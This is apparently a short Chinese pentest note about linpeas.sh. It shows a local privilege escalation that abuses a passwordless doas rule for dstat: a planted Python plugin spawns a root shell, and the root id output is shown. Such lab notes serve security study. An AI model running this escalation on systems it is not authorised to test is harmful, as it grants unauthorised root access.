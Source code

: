 ```yaml
---
title: "linpeas.sh"
date: 2023-03-09
draft: false
---
```

因linpeas.sh更新频繁

记得随用随下载：

[linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/)

<!--more-->


------------

### doas

`╔══════════╣ Checking doas.conf`
`permit nopass player as root cmd /usr/bin/dstat`

参考 <https://gtfobins.github.io/gtfobins/dstat/>

```bash
$ cd /usr/local/share/dstat/
$ echo 'import os; os.execv("/bin/sh", ["sh"])' >dstat_xxx.py
$ doas -u root /usr/bin/dstat --xxx
# id
uid=0(root) gid=0(root) groups=0(root)

```

